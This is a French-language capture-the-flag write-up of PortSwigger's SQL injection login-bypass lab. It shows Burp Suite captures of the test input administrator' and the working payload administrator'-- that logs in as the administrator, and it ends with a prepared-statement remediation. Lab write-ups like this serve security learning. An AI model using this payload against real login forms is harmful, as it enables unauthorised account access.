







# Lab: SQL injection vulnerability allowing login bypass

> **CTF :** PORTSWIGGER  

> **Catégorie :** Sécurité Web  

> **Difficulté :** APPRENTICE  

> **Points :** ✅  

> **Date :** <!-- JJ/MM/AAAA -->  

> **Statut :**  ✅ Résolu  


---

## 📌 Description du Challenge

> *Ce laboratoire contient une vulnérabilité d'injection SQL dans la fonction de connexion. Pour résoudre le laboratoire, effectuez une attaque d'injection SQL qui se connecte à l'application en tant que administratorutilisateur.*  


---

## 🎯 Objectif

Nous devons effectuer une attaque par injection SQL pour  se connecter à l'application en tant qu'administrateur.
---

## 🔍 Reconnaissance

- sur la page de l'application, nous avons un onglet My account, c'est là que tout va se passer.  
 
- Nous avons besoin d'un Username et d'un Password pour nous connecter en tant qu'administrateur.


**Observations :**
- Nous allons devoir intercepter les requêtes, voir comment ça se présente et trouver le vecteur d'attaque.
-

**Outils utilisés :**
- Burp Suite

---

## 🧠 Hypothèse

Étant donné que nous sommes dans un lab d'injection SQL, alors nous allons procéder à l'injection SQL
---

## ⚔️ Exploitation

### Étape 1 — [Action]
- testons la base de données en ajoutant "'" à la fin du Username.  
- commençons par entrer administrator comme Username et 1234 comme password


**Requête :**
```http
POST /login HTTP/1.1
Host: 0a4600e20370d359815fcf59009f00df.web-security-academy.net
Cookie: session=LpezhSo6cUoJRPo3OQlgWrQyv6o5uRIo
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 74
Origin: https://0a4600e20370d359815fcf59009f00df.web-security-academy.net
Referer: https://0a4600e20370d359815fcf59009f00df.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

csrf=g10zk4ndqTK6FvQvKDbdI757TOkzclfs&username=administrator'&password=1234
```

**Réponse :**
```http
HTTP/2 500 Internal Server Error
Content-Length: 21

Internal Server Error
```  



---

### Étape 2 —
Envoyons la requête au Repeateur avant de la modifier et envoyons la requête modifiée vers le serveur.


---

### Étape 3 — [Exploitation finale]

**Payload utilisé :**
```http
POST /login HTTP/2
Host: 0a4600e20370d359815fcf59009f00df.web-security-academy.net
Cookie: session=LpezhSo6cUoJRPo3OQlgWrQyv6o5uRIo
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 74
Origin: https://0a4600e20370d359815fcf59009f00df.web-security-academy.net
Referer: https://0a4600e20370d359815fcf59009f00df.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=g10zk4ndqTK6FvQvKDbdI757TOkzclfs&username=administrator'--&password=1234
```

**Résultat :**
```
```http
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=3UDt4oLJoKlq682a8BShErOUawHVMFFS; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```  




---

## 🚩 Flag

 

---

## 🛡️ Remédiation

Requêtes préparées : Utiliser des requêtes préparées (prepared statements) ou des instructions paramétrées pour séparer le code SQL des données fournies par l'utilisateur.

---

## 💡 Points Clés à Retenir

- Si la requête d'origine est SELECT * FROM users WHERE username = 'INPUT' AND password = 'PASSWORD', l'entrée admin' -- la transforme en SELECT * FROM users WHERE username = 'admin' --' AND password = 'PASSWORD'. Le reste est ignoré et l'accès est accordé.

---

## 📚 Références

- [PortSwigger — Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/topic)
- [OWASP — Vulnérabilité Associée](https://owasp.org/Top10/)


---

*Rédigé par : Malick Ramzy SOPODOU*  

*PORTSWIGGER*
